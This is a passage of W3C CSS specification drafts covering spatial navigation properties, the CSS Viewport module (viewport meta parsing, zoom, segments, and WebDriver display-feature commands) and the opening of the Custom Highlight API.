: If the currently focused element is not itself a scroll container, this value on an ancestor scroll container has the same effect as `auto`.

  If the currently focused element is a scroll container and can be manually scrolled in the direction requested, it is scrolled in the direction requested without changing which element is in focus, regardless of the presence of focusable descendants.

  > **Note:** This means that spatial navigation can be used to move the focus to a scroll container and to scroll it, but not to move the focus to its descendants. However, if the focus is moved to a descendant by some other mean (such as pressing the Tab key or using the <`focus()`> method) spatial navigation can be used to move the focus to other focusable descendants.

  > **Note:** The `scroll` value is at-risk.

> **Note:** Earlier version of this specification did not offer a declarative way to opt into the behavior defined by `focus`, and instead offered a cancellable event that would be fired before scrolling, so that the author could implement that behavior themselves. However, cancellable events related to scrolling can cause performance problems, so this event was removed and the `spatial-navigation-action` property was introduced instead.

> **Example:** In this example, a scrollable container is specified with `spatial-navigation-action: focus`. Inside the container, there is an element which is out of the view within a scrollport. Pressing the down arrow key moves the focus directly to it without scrolling manually.
>
> 
>
> Moving focus from "Box 2" to "Box 3" without manually scrolling
>
> ```
> <div class='scroller'>
>     <button class='item'>Box 1</button>
>     <button class='item'>Box 2</button>
>     <button class='item'>Box 3</button>
> </div>
> ```
>
> ```
> .scroller {
>     display: grid;
>     grid-template-columns: repeat(1, 1fr);
>     height: 300px;
>     width: 200px;
>     overflow-y: scroll;
>     spatial-navigation-action: focus;
> }
> .item {
>     height: 100px;
>     width: 100px;
>     margin: 50px auto;
>     background-color: blue;
> }
> :focus {
>     background-color: red;
> }
> ```

#### 9.3.  Selecting the navigation algorithm: the `spatial-navigation-function` property {#css-spatial-nav-1:css-property-spatialnavigationfunction}

| Field | Value |
| --- | --- |
| Name: | **spatial-navigation-function** |
| [Value:](#css-values-4:value-defs) | normal \| grid |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | spatial navigation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The default algorithm of spatial navigation specified in the [§ 8 Processing Model](#css-spatial-nav-1:processing-model) may need the fine tune depending on the layout types. This property allows the author to indicate which navigation algorithm is reasonable for spatial navigation behavior.

Its values are defined as follows:

****normal****

: Moves the focus with the default focus navigation algorithm defined by UA.

  In general, the focus moves to the element with the closest distance calculated by finding the shortest distance.

****grid****

: Moves the focus to the element which is aligned most in the navigation direction.

  - If there are more than one aligned candidates in the navigation direction, select the element with the closest distance along the axis which corresponds to the navigation direction. In case of multiple elements with the same distance, select the element with the minimum amount of alignment.
  - Else if there isn’t any aligned candidate in a given direction, select the element with the closest distance along the axis which corresponds to the navigation direction. In case of multiple elements with the same distance, select the element with the minimum distance along the axis which is orthogonal to the navigation direction.

> **Note:** These values are negotiated with the users' preferences which seems natural spatial navigation behavior for their pages.

> **Example:** This example shows how the focus moves differently by the value of `spatial-navigation-function`.
>
> 
>
> Moving focus from "A" to one of the candidate elements
>
> Let the element which contains "A", "B" and "C" is the spatial navigation container.
>
> When the user presses the down arrow key, if `normal` value is given to `spatial-navigation-function` of the element, the focus will move to "B". Otherwise, `grid` value was specified to the element, the focus will move to "C".

### Appendix A. Scroll extensions {#css-spatial-nav-1:scrolling}

This section proposes a few extensions to CSS that should be integrated in upstream specifications, but are hosted here until then.

> **Issue:** Terminology like this should be in [CSSOM-VIEW-1], [CSS-OVERFLOW-3], [CSS-SCROLL-SNAP-1]. [[w3c/csswg-drafts Issue #2322]](https://github.com/w3c/csswg-drafts/issues/2322)

An element *e* **can be manually scrolled** in a given direction *d* if:

- The principal box established by *e* is a scroll container in *d*’s axis, and
- if *d* is `up` or `down`, the computed value of the `overflow-y` property is not `hidden`, and
- if *d* is `left` or `right`, the computed value of the `overflow-x` property is not `hidden`, and
- *e* is not at the scroll boundary in the direction *d*
- *e* is not snapped to the last `mandatory` snap point in direction *d*

> **Issue:** [CSSOM-VIEW-1] should probably define how to perform a scroll in a given direction without an explicit position. Until then, we roll our own. [[w3c/csswg-drafts Issue #2323]](https://github.com/w3c/csswg-drafts/issues/2323)

To **directionally scroll an element** *e* in direction *dir*:

1. Let *d* be a user agent defined distance.
2. Let *x* be *e*’s current scroll position on the x axis.
3. Let *y* be *e*’s current scroll position on the y axis.
4. Use the scroll an element algorithm from [CSSOM-VIEW-1] on *e* to

  - (*x*, *y* - *d*) if *dir* is `up`
  - (*x*, *y* + *d*) if *dir* is `down`
  - (*x* - *d*, *y*) if *dir* is `left`
  - (*x* + *d*, *y*) if *dir* is `right`

---

## CSS Viewport Module Level 1 {#css-viewport-1}

- **Shortname:** `css-viewport-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-viewport-1/](https://drafts.csswg.org/css-viewport-1/)
- **Published TR:** [http://www.w3.org/TR/css-viewport-1/](http://www.w3.org/TR/css-viewport-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-08-29

### 1.  Introduction {#css-viewport-1:intro}

*This section is not normative.*

CSS 2.1 [CSS21] specifies an  [initial containing block](#css2:containing-block-details) for continuous media that has the dimensions of the  [viewport](#css2:viewport). Since the viewport is generally no larger than the display, devices with smaller displays such as phones or tablets typically present a smaller viewport than larger devices like desktop or laptops.

Unfortunately, many documents have historically been designed against larger viewports and exhibit a variety of bugs when viewed in smaller viewports. These include unintended layout wrapping, clipped content, awkward scrollable bounds, and script errors. To avoid these issues, mobile browsers generally use a fixed initial containing block width that mimics common desktop browser window size (typically 980-1024px). The resulting layout is then scaled down to fit in the available screen space.

Although this approach mitigates the issues mentioned above, the downscaling means the CSS pixel size will be smaller than [recommended](#css2:length-units) by CSS 2.1. Users will likely need to zoom on the content to view it comfortably.

This mitigation is unnecessary for sites that have been designed to work well on small viewports.

> **Issue:** This specification is written from an implementation-centric point of view, making it arguably difficult to read. Significant editorial work may be needed to make it more understandable to different audiences. It also should clarify which viewport is referred to by various js APIs. See [this blog post by ppk](http://www.quirksmode.org/blog/archives/2015/09/a_new_device_ad.html) for a good discussion of these issues.

> **Issue:** Various issues about this specification and related specifications are listed in [this report](https://www.w3.org/Graphics/SVG/WG/wiki/Proposals/Investigation_of_APIs_for_Level_of_detail#The_issues_on_existing_APIs).

### 2. Terminology {#css-viewport-1:terminology}

In CSS 2.1 a viewport is a feature of a user agent for continuous media and used to establish the initial containing block for continuous media. For paged media, the initial containing block is based on the page area. The page area can be set through `@page` rules.

This specification introduces a way of overriding the size of the viewport provided by the user agent (UA). Because of this, we need to define initial viewport, layout viewport and visual viewport.

****initial viewport****

: This refers to the viewport before any UA or author styles have overridden the viewport given by the window or viewing area of the UA.

  > **Note:** The initial viewport size will change with the size of the window or viewing area.

****layout viewport****

: This is the viewport you get after processing the viewport `<meta>` tag.

****visual viewport****

: This is the portion of the layout viewport that is currently visible, obtained by result of applying scale transform to it. This transform is applied to the canvas of the layout viewport and does not affect its internal coordinate space. The magnitude of the scale transform is known as the visual viewport’s **scale factor**.

  > **Note:** The visual viewport can be smaller than the layout viewport.

> **Note:** The scale transform of the visual viewport is often referred to as "pinch-zoom". Conceptually, this transform changes the size of the CSS reference pixel and changes the size of the layout viewport (inversally) proportionally so that it does not cause reflow of the page’s contents.

When the layout viewport cannot fit inside the window or viewing area, either because the layout viewport is larger than the initial viewport or the zoom factor causes only parts of the layout viewport to be visible, the UA should offer a scrolling or panning mechanism.

> **Note:** The visual viewport’s scrolling area is the layout viewport.

> **Example:** This animation shows an example of a zoomed in visual viewport being "panned" around (for example, by a user performing a touch drag). The page is scaled so that the layout viewport is larger than the visual viewport.
>
> A scroll delta is applied to the visual viewport first. When the visual viewport is at its extent, scroll delta will be applied to the layout viewport. This behavior is implemented by the perform a scroll steps.

It is recommended that initially the upper-left corners of the layout viewport and the window or viewing area are aligned if the base direction of the document is ltr. Similarly, that the upper-right corners are aligned when the base direction is rtl. The base direction for a document is defined as the computed value of the `direction` property for the first `<BODY>` element of an HTML or XHTML document. For other document types, it is the computed `direction` for the root element.

#### 2.1. Display feature definition {#css-viewport-1:the-display-feature}

A **Display feature** is a hardware feature that acts as a divider and creates logically separate region of the viewport called `segments`. It can be a fold area of a device with a foldable screen or a physical split occupying a logical space within the viewport for example some dual screen models.

Below is an illustration describing the concept of display features and how they divide the viewport in `segments`:


### 3.  Viewport `<meta>` element {#css-viewport-1:viewport-meta}

> **Issue:** Specify me

#### 3.1.  Properties {#css-viewport-1:meta-properties}

The recognized properties in the viewport `<meta>` element are:

- `width`
- `height`
- `initial-scale`
- `minimum-scale`
- `maximum-scale`
- `user-scalable`
- `interactive-widget`

#### 3.2.  Parsing algorithm {#css-viewport-1:parsing-algorithm}

Below is an algorithm for parsing the `content` attribute of the `<meta>` tag produced from testing Safari on the iPhone.  The testing was done on an iPod touch running iPhone OS 4. The UA string of the browser: `"Mozilla/5.0 (iPod; U; CPU iPhone OS 4_0 like Mac OS X; en-us) AppleWebKit/532.9 (KHTML, like Gecko) Version/4.0.5 Mobile/8A293 Safari/6531.22.7"`. The pseudo code notation used is based on the notation used in [Algorithms].

The whitespace class contains the following characters (ascii):

- Horizontal tab (0x09)
- Line feed (0x0a)
- Carriage return (0x0d)
- Space (0x20)

The recognized separator between property/value pairs is comma for the Safari implementation. Some implementations have supported both commas and semicolons. Because of that, existing content use semicolons instead of commas. Authors should be using comma in order to ensure content works as expected in all UAs, but implementors may add support for both to ensure interoperability for existing content.

The separator class contains the following characters (ascii), with comma as the preferred separator and semicolon as optional:

- Comma (0x2c)
- Semicolon (0x3b)

```
Parse-Content(S)
i ← 1
while i ≤ length[S]
	do while i ≤ length[S] and S[i] in [whitespace, separator, '=']
		do i ← i + 1
	if i ≤ length[S]
		then i ← Parse-Property(S, i)

Parse-Property(S, i)
start ← i
while i ≤ length[S] and S[i] not in [whitespace, separator, '=']
	do i ← i + 1
if i > length[S] or S[i] in [separator]
	then return i
property-name ← S[start .. (i - 1)]
while i ≤ length[S] and S[i] not in [separator, '=']
	do i ← i + 1
if i > length[S] or S[i] in [separator]
	then return i
while i ≤ length[S] and S[i] in [whitespace, '=']
	do i ← i + 1
if i > length[S] or S[i] in [separator]
	then return i
start ← i
while i ≤ length[S] and S[i] not in [whitespace, separator, '=']
	do i ← i + 1
property-value ← S[start .. (i - 1)]
Set-Property(property-name, property-value)
return i
```

Set-Property matches the [listed property names](#css-viewport-1:meta-properties) case-insensitively. The `property-value` strings are interpreted as follows:

1. If a prefix of `property-value` can be converted to a number using `strtod`, the value will be that number. The remainder of the string is ignored.
2. If the value can not be converted to a number as described above, the whole `property-value` string will be matched with the following strings case-insensitively: `yes`, `no`, `device-width`, `device-height`
3. If the string did not match any of the known strings, the value is unknown.

#### 3.3. `extend-to-zoom` {#css-viewport-1:extend-to-zoom}

> **Issue:** Specify extend-to-zoom behavior by the viewport meta tag

#### 3.4. `interactive-widget` {#css-viewport-1:interactive-widget-section}

The **`interactive-widget`** property specifies the effect that interactive UI widgets have on the page’s viewports. It defines whether widgets overlay a given viewport or whether the viewport is shrunken so that it remains fully visible while the widget is showing. Interactive UI widgets are transient user agent or operating system UI through which a user can provide input.

> **Note:** The most common such UI widget is a virtual keyboard.

The following is a list of valid values for interactive-widget and the associated viewport-resizing behavior:

****`overlays-content`****

: Interactive UI widgets MUST NOT resize the initial viewport nor the visual viewport. The user agent must perform the same steps as when `VirtualKeyboard.overlaysContent` is set to `true`.

****`resizes-content`****

: Interactive UI widgets MUST resize the initial viewport by the interactive widget.

  > **Note:** Since the visual viewport’s size is derived from the initial viewport, resizes-content will cause a resize of both the initial and visual viewports.

****`resizes-visual`****

: Interactive UI widgets MUST resize the visual viewport but MUST NOT resize the initial viewport.

If no value, or an invalid value, is set for interactive-widget, the behavior implied by resizes-visual is used as the default.

To **resize a viewport by an interactive widget**, subtract from it the intersection of the viewport rect with the widget’s OS reported bounding rect. In cases where this would result in a non-rectangular viewport, the behavior is user agent defined.

> **Note:** Some examples where the result would non rectangular: a [floating or split keyboard](https://support.apple.com/en-ca/HT207521), or a keyboard that  [occupies only part](https://github.com/MicrosoftEdge/MSEdgeExplainers/blob/main/VirtualKeyboardAPI/explainer.md#motivation) of the viewport.

##### 3.4.1.  Interaction with virtualKeyboard.overlaysContent {#css-viewport-1:interaction-with-virtualkeyboard-overlayscontent}

[VIRTUAL-KEYBOARD] provides an imperative API to apply the overlays-content behavior via the `VirtualKeyboard.overlaysContent` attribute. This attribute shadows the value set to interactive-widget, namely:

When `VirtualKeyboard.overlaysContent` is set to `true`, the UA MUST ignore any value set to interactive-widget when determining the resizing behavior of interactive widgets.

When `VirtualKeyboard.overlaysContent` is set to `false`, the UA MUST use the value set to interactive-widget, or the default behavior if a value is not set, when determining the resizing behavior of interactive widgets.

Getting the value of `VirtualKeyboard.overlaysContent` MUST return only the value previously set to it.

> **Note:** That is, unless previously set, `VirtualKeyboard.overlaysContent` returns false even if `interactive-widget=overlays-content` is set via the `<meta>` tag.

### 4.  The `zoom` property {#css-viewport-1:zoom-property}

An element becomes zoomed when the `zoom` property has a positive computed value different than 1 (or when a flat tree ancestor has zoom).

To apply zoom, the used value of a CSS property (including values inside of `path()` strings) is pre-multiplied (before any other steps in the used value stage) by the used value of `zoom` for the element. It also multiplies the natural size of all replaced elements, background images, and nested frames (except for fenced frames [FENCED-FRAME]) by the used value of `zoom`.

> **Note:** This results in a magnification or minification effect.

Nested values of `zoom` multiply, resulting in additional scaling of `<length>` values. The used value for zoom is always its effective zoom.

The `zoom` property has no effect on `<length>` property values with computed values that are `auto` or `<percentage>`.

> **Note:** Unlike `transform`, scaling the `zoom` property affects layout.

> **Note:** The computed value of `font-size` is never `<percentage>`; thus `zoom` always applies.

> **Note:** `zoom` does not affect or prevent `transform` scaling.

| Field | Value |
| --- | --- |
| Name: | **zoom** |
| [Value:](#css-values-4:value-defs) | `<number [0,∞]>` \| `<percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | all `<length>` property values of all elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Converted to `<number>` |
| [Computed value:](#css-cascade-6:computed) | as specified, but with `<percentage>` converted to the equivalent `<number>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

The values of this property have the following meanings:

****`<number>`****

: Positive floating point number indicating a zoom factor. Numbers smaller than 1.0 indicate a "zoom out" or minification effect, while numbers greater than 1.0 indicate a "zoom in" or magnification effect. A 0 value is treated as if it was 1.

  > **Note:** The treatment of 0 is a web compatibility quirk.

****`<percentage>`****

: Positive floating point number, followed by a percentage character ("%") which indicates a zoom factor multiplied by 100. A 0 percentage is treated as if it was 100%.

  > **Note:** The treatment of 0 is a web compatibility quirk.

Negative values for `zoom` are illegal.

> **Example:** of the `zoom` property applied during hover for magnification effect.
>
> ```
> <div class="messageBox">
>   <div class="label">Text of the label</div>
> </div>
>
> <style>
> .messageBox {
>     width: 10em;
>     padding: 2em;
>     border: medium solid lightblue;
> }
>
> .messageBox:hover {
>     zoom: 150%;
> }
>
> .label {
>     background: lightgrey;
>     padding: 1em;
>     text-align: center;
> }
> </style>
> ```
>
> Here is an llustration of the before and after hover state of the message box element: 

> **Example:** of nested zoom. In this example, "Inner text" is 4x as large as "Outer text", and "Middle text" is 2x as large as "Outer text".
>
> ```
> <div style="zoom: 2">
>   Middle text
>   <div style="zoom: 2">
>      Inner text
>   <div>
> <div>
> Outer text
> ```

> **Example:** of replaced elements. In this example, the image and iframe will be twice as large as their default sizing.
>
> ```
> <div style="zoom: 2">
>   
>   <iframe src="..."></iframe>
> <div>
> ```

The **effective zoom** of an element is the product of its computed value of `zoom` and all flat tree ancestors' computed values of `zoom`.

The **scaled** value of a CSS length is the used value of that length; in particular it includes zoom.

The **unscaled** value of a CSS length relative to an element is the scaled value divided by the element’s effective zoom.

> **Note:** The effective zoom of an element in a nested frame may be a value other than 1 even if `zoom` is never set on an element in that frame. This can be observed by authors via APIs such as `devicePixelRatio` and `getBoundingClientRect`.

#### 4.1.  DOM and CSSOM interaction {#css-viewport-1:zoom-om}

Computed style APIs (i.e., all values returned by `getComputedStyle()`) that are non-auto and non-percentage lengths must be unscaled.

The `getBoundingClientRect`, `getClientRects`, and `IntersectionObserver` APIs must return rects with scaled lengths.

All other APIs related to element geometries must return unscaled lengths (except as detailed below). This is explained in detail in [CSSOM View § 7 Extensions to the HTMLElement Interface](#cssom-view-1:extensions-to-the-htmlelement-interface).

In cases where properties (such as `scrollTop`) are propagated to the viewport, APIs for these lengths must be in viewport units, and not be divided by the zoom of the element.

The `devicePixelRatio` of a frame is multiplied by the effective zoom inherited by its parent frame.

### 5. Extensions to the `Window` Interface {#css-viewport-1:extensions-to-the-window-interface}

```webidl
partial interface Window {
[SameObject, Replaceable] readonly attribute Viewport viewport;
};
```

### 6. The `Viewport` Interface {#css-viewport-1:the-viewport-interface}

```webidl
[Exposed=Window]
interface Viewport {
  readonly attribute FrozenArray<DOMRect>? segments;
};
```

### 7.  The **`segments`** property {#css-viewport-1:segments}

The `segments` property is an array of `DOMRect` that represent the dimensions of each existing viewport segment. Each `DOMRect` contains the geometry of the segment (x, y, width, height) in CSS `px`.

Additional details about the definition of a viewport segment can be found here: [CSS Environment Variables 1 § 2.3 Viewport segment variables](#css-env-1:viewport-segments).

The `segments` attribute getter steps are:

1. If the `Viewport`’s associated `Document` is not fully active, return null.
2. Let *topLevelTraversable* be *document*’s relevant global object’s navigable’s top-level traversable.
3. If *topLevelTraversable*.[[DisplayFeaturesOverride]] is non-null, return `Viewport`’s [segments](#css-env-1:viewport-segments) array calculated from *topLevelTraversable*.[[DisplayFeaturesOverride]].
4. If there is only a single viewport segment (typically the size of the `Viewport`) return an array with that single segment.
5. Otherwise, return the `Viewport`’s [segments](#css-env-1:viewport-segments) array calculated from the hardware features.

*This section is not normative.*

The `segments` property represents an immutable snapshot of the device `segments` when the value was queried. If the device state changes (rotation, window resize, posture change), the value previously retrieved will be invalid. Developers can listen to `Screen Orientation`, `Window Resize`, or `Posture` changes events to detect device state changes.

> **Example:** If a viewport of 400px by 400px is split horizontally into two side-by-side segments, the `segments` array will have the following content: `[DOMRect(0, 0, 400, 200), DOMRect(0, 200, 400, 200)]`

### Appendix B. Automation {#css-viewport-1:automation}

#### Automation of the `segments` property {#css-viewport-1:automation-segments}

The `segments` property poses a challenge to test authors, as exercising this property requires access to specific hardware devices. To address this challenge this document defines [WEBDRIVER2] extension commands that allow users to control how the viewport is split by one or more  display features (such as a fold or a hinge between two separate displays).

A **display feature override** is a struct encapsulating the result of a single display feature. It has a **orientation** (a string that is either "vertical" or "horizontal"), a **mask length** (a positive number describing the length of the feature in CSS `px`), and an **offset** (which describe the distance from the origin of the viewport in CSS `px`).

##### Internal slots {#css-viewport-1:internal-slots}

To support the extension commands below and their integration with the `segments` attribute getter steps, top-level traversables must have the following internal slots:

| Internal slot | Description |
| --- | --- |
| **[[DisplayFeaturesOverride]]** | List of display feature override that overrides those provided by the hardware, or `null`. |

##### Extensions Commands {#css-viewport-1:extension-commands}

###### Set display features {#css-viewport-1:set-display-features}

| Field | Value |
| --- | --- |
| HTTP Method | URI Template |
| POST | /session/{session id}/displayfeatures |

This extension command creates a setup that emulates a set of display feature override by taking a list of display features as parameter.

*This section is not normative.*

This section exists because the input format is not trivial. Here is a pseudo IDL example on how a display feature override is defined:

```webidl
enum OrientationType {
  "vertical",
  "horizontal"
};

interface DisplayFeature {
  readonly attribute OrientationType orientation;
  readonly attribute double offset;
  readonly attribute double maskLength;
};
```

Below is an illustration showing the various properties of a display feature:


> **Example:** To create a [[DisplayFeaturesOverride]] in the current browsing context of the session with ID 23, the local end would POST to `/session/23/displayfeatures` with the body:
>
> ```json
> {
>   "features": [
>     {
>       "orientation": "horizontal",
>       "offset": 190,
>       "maskLength": 20
>     }
>   ]
> }
> ```
>
> Considering a viewport of 400px by 400px the command will result of a `segments` property with the following content: `[DOMRect(0, 0, 400, 190), DOMRect(0, 210, 400, 190)]`

The remote end steps are:

1. Let *features* be the result of invoking getting a property "features" from *parameters*.
2. If *features* is not a `Array`, return error with WebDriver error code invalid argument.
3. Let *parsedFeatures* be a new list of display feature override.
4. For each *feature item* in *features*:

  1. If *feature item* is not an `Object`, return error with WebDriver error code invalid argument.
  2. Let *mask length* be the result of invoking getting a property "maskLength" from *feature item*.
  3. If *mask length* is not a `Number` or its value is `NaN`, +∞, −∞, or negative return error with WebDriver error code invalid argument.
  4. Let *offset* be the result of invoking getting a property "offset" from *feature item*.
  5. If *offset* is not a `Number` or its value is `NaN`, +∞, −∞, or negative return error with WebDriver error code invalid argument.
  6. Let *orientation* be the result of invoking getting a property "orientation" from *feature item*.
  7. If *orientation* is not a `string`, return error with WebDriver error code invalid argument.
  8. If *orientation* is neither "vertical" or "vertical", return error with WebDriver error code invalid argument.
  9. If *orientation* is "vertical" and *mask length* + *offset* is greater than viewport width including the size of the rendered scrollbar, return error with WebDriver error code invalid argument.
  10. If *orientation* is "vertical" and *mask length* + *offset* is greater than viewport height including the size of the rendered scrollbar, return error with WebDriver error code invalid argument.
  11. Let *override* be a new display feature override.
  12. Set *override*’s mask length to *mask length*.
  13. Set *override*’s orientation to *orientation*.
  14. Set *override*’s offset to *offset*.
  15. Append *override* to *parsedFeatures*.
5. Let *topLevelTraversable* be the current browsing context’s top-level traversable.
6. Set *topLevelTraversable*.[[DisplayFeaturesOverride]] to *parsedFeatures*.
7. Return success with data `null`.

###### Clear display features {#css-viewport-1:clear-display-features}

| Field | Value |
| --- | --- |
| HTTP Method | URI Template |
| DELETE | /session/{session id}/displayfeatures |

This extension command removes the display features override and returns control back to hardware.

The remote end steps are:

1. Let *topLevelTraversable* be the current browsing context’s top-level traversable.
2. Set *topLevelTraversable*. [[DisplayFeaturesOverride]] to `null`.
3. Return success with data `null`.

---

## CSS Custom Highlight API Module Level 1 {#css-highlight-api-1}

- **Shortname:** `css-highlight-api-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-highlight-api-1/](https://drafts.csswg.org/css-highlight-api-1/)
- **Published TR:** [https://www.w3.org/TR/css-highlight-api-1/](https://www.w3.org/TR/css-highlight-api-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-09-10

### 1.  Introduction {#css-highlight-api-1:intro}

*This section is non-normative*.

The Custom Highlight API extends the concept of highlight pseudo-elements (see [CSS Pseudo-Elements 4 § 3 Highlight Pseudo-elements](#css-pseudo-4:highlight-pseudos)) by providing a way for web developers to style the text of arbitrary Range objects, rather than being limited to the user agent defined `::selection`, `::inactive-selection`, `::spelling-error`, and `::grammar-error`. This is useful in a variety of scenarios, including editing frameworks that wish to implement their own selection, find-on-page over virtualized documents, multiple selection to represent online collaboration, or spellchecking frameworks.

The Custom Highlight API provides a programmatic way of adding and removing highlights that do not affect the underlying DOM structure, but instead applies styles to text based on range objects, accessed via the `::highlight()` pseudo-element.

> **Example:** The following code uses the `::highlight()` pseudo-element to apply a yellow background and blue foreground color to the text One two. It does so by adding a `Highlight` to the `HighlightRegistry` (both of these are new concepts introduced by this specification). The `Highlight` will contain a `Range` whose boundary points surround the text One two.
>
> ```
> <style>
>   :root::highlight(example-highlight) {
>     background-color: yellow;
>     color: blue;
>   }
> </style>
> <body><span>One </span><span>two </span><span>three…</span>
> <script>
>   let r = new Range();
>   r.setStart(document.body, 0);
>   r.setEnd(document.body, 2);
>
>   CSS.highlights.set("example-highlight", new Highlight(r));
> </script>
> ```
>
> The result would look like:
>
> One Two three…

### 2.  Module Interactions {#css-highlight-api-1:interaction}

This module depends on the Infra Standard [INFRA] and on WebIDL [WebIDL].

It assumes general familiarity with CSS and with the DOM Standard [DOM], and specifically extends the mechanisms defined in CSS Pseudo-Elements Module Level 4 [css-pseudo-4] to handle highlight pseudo-elements. The Selectors Level 4 [selectors-4] specification defines how pseudo-elements work in general.

See [References](#css-highlight-api-1:references) for a full list of dependencies.

> **Note:** This draft is an early version. As it matures, the CSS-WG could decide to keep it as an independent module, or might prefer to fold it into [css-pseudo-4], or a later version of that module.

### 3.  Setting up Custom Highlights {#css-highlight-api-1:highlights-set-up}

#### 3.1.  Creating Custom Highlights {#css-highlight-api-1:creation}

A **custom highlight** is a collection of ranges representing portions of a document. They do not necessarily fit into the element tree, and can arbitrarily cross element boundaries without honoring its nesting structure. They can be used to affect the appearance of these portions of the document (see [§ 4 Styling Custom Highlights](#css-highlight-api-1:styling-highlights)), or to handle to events associated with them (see [§ 7 Event Handling](#css-highlight-api-1:events)).

Custom highlights are represented by **`Highlight`** objects, setlike objects whose set entries are `AbstractRange` objects. Ranges can be added to a custom highlight either by passing them to its constructor, or by using the usual API of setlike objects to manipulate its set entries.

> **Note:** As the ranges in a custom highlight are `AbstractRange` objects, authors can chose between using `Range` objects and `StaticRange` objects. See [§ 5.2 Range Updating and Invalidation](#css-highlight-api-1:range-invalidation) for more details about this choice and its implications.

> **Note:** When creating `Range` objects for use in custom highlights, it is suggested that authors avoid placing range endpoints in the middle of a grapheme, such as when a visible unit of text is comprised of multiple Unicode code points. Doing so can create undesirable highlighting effects, such as highlighting only part of an Indic syllable. In addition, care needs to be taken to avoid placing an endpoint in the middle of a supplementary character.

```webidl
enum HighlightType {
  "highlight",
  "spelling-error",
  "grammar-error"
};

[Exposed=Window]
interface Highlight {
  constructor(AbstractRange... initialRanges);
  setlike<AbstractRange>;
  attribute long priority;
  attribute HighlightType type;
};
```

See [§ 4.2.5 Priority of Overlapping Highlights](#css-highlight-api-1:priorities) for more information on the `priority` attribute.

See [§ 4.2.6 Highlight types](#css-highlight-api-1:highlight-types) for more information on the `type` attribute.

When the **`Highlight(AbstractRange... initialRanges)`** constructor is invoked, run the following steps:

1. Let *highlight* be the new `Highlight` object.
2. Set *highlight*’s `priority` to `0`.
3. Set *highlight*’s `type` to `highlight`.
4. For each *range* of `initialRanges`, let *rangeArg* be the result of converting *range* to an ECMAScript value, then run [the steps for a built-in setlike add function](https://webidl.spec.whatwg.org/#js-set-add), with *highlight* as the `this` value, and *rangeArg* as the argument.
5. Return *highlight*.

#### 3.2.  Registering Custom Highlights {#css-highlight-api-1:registration}

In order to have any effect, custom highlights need to be registered into the highlight registry.

The **highlight registry** is accessed via the `highlights` attribute of the `CSS` namespace, and represents all the custom highlights registered for the current global object’s associated Document. It is a maplike, and can be updated using the usual methods. It’s map entries is initially empty.

A custom highlight is said to be **registered** if it is in the highlight registry. It stops being registered if it is later removed.

```webidl
partial namespace CSS {
  readonly attribute HighlightRegistry highlights;
};

[Exposed=Window]
interface HighlightRegistry {
  maplike<DOMString, Highlight>;
};
```

To register a custom highlight, invoke the `set` method of the highlight registry which will run [the steps for a built-in maplike set function](https://webidl.spec.whatwg.org/#js-map-set), with the highlight registry as the `this` value, the passed-in custom highlight name as *keyArg*, and the passed-in highlight as *valueArg*.

The **custom highlight name** assigned to a custom highlight when it is registered is used to identify the highlight during styling (see [§ 4 Styling Custom Highlights](#css-highlight-api-1:styling-highlights)).

> **Note:** When registering a custom highlight, authors are advised to use a custom highlight name that is a valid CSS identifier. Using a name that is not a valid identifier can make the highlight hard, and in some cases impossible, to style via CSS.

> **Note:** It is possible to register a custom highlight with more than one custom highlight name. However, using more than one name to style a highlight will assign the highlight multiple different sets of styles, without a way to control the stacking order of conflicting styles within these sets during [painting](#css-highlight-api-1:painting). This could be limiting for authors and could cause confusing painting behavior (see the [example](#css-highlight-api-1:styling-problems-with-multiple-names-per-highlight) below for more context). Therefore, **authors are advised to only use one name per highlight during styling**.

> **Example:** ```
> <style>
>   div::highlight(bar) {
>     color: red;
>   }
>   div::highlight(foo) {
>     color: green;
>   }
> </style>
> <body><div>abc</div>
> <script>
>   let div = document.body.firstChild;
>   let r = new Range();
>   r.setStart(div, 0);
>   r.setEnd(div, 1);
>   let h = new Highlight(r);
>   CSS.highlights.set('foo', h);
>   CSS.highlights.set('bar', h);
> </script>
> ```
>
> In the example above, the same custom highlight object is registered under the names `foo` and `bar`. Since each of the style rules target the same highlight and have the same specificity, authors might expect the last rule to win in cascading order and the highlighted content to be green. However, each highlight name gets an independent set of highlight styles, and the highlight will be painted once per name. In this case, because `foo` was registered before `bar`, the highlight will be first painted with `foo`’s color (green) and then with `bar`’s color (red). As a result, the highlighted content will appear red.

### 4.  Styling Custom Highlights {#css-highlight-api-1:styling-highlights}

#### 4.1.  The Custom Highlight Pseudo-element: `::highlight()` {#css-highlight-api-1:custom-highlight-pseudo}

The `::highlight()` pseudo-element (also known as the **custom highlight pseudo-element**) represents the portion of a document that is being contained or partially contained in all the ranges of the registered custom highlight selected by its argument.

#### 4.2.  Processing Model {#css-highlight-api-1:processing-model}

##### 4.2.1.  Applicable Properties {#css-highlight-api-1:applicable-properties}

Custom highlight pseudo-elements, like the built-in highlight pseudo-elements, can only be styled with a limited set of properties. See [CSS Pseudo-Elements 4 § 3.2 Styling Highlights](#css-pseudo-4:highlight-styling) for the full list.

##### 4.2.2.  Default Styles {#css-highlight-api-1:default-styles}

UAs must not define any default UA stylesheet rules or paired default highlight colors for any custom highlight pseudo-elements. In other words, when some content is highlighted by an unstyled custom highlight, its presentation must not change.

##### 4.2.3.  Cascading and Inheritance {#css-highlight-api-1:c-and-h}

The cascading and inheritance of custom highlight pseudo-elements is handled identically to that of the built-in highlight pseudo-elements, as defined in [CSS Pseudo-Elements 4 § 3.5 Cascading and Per-Element Highlight Styles](#css-pseudo-4:highlight-cascade).

##### 4.2.4.  Painting {#css-highlight-api-1:painting}

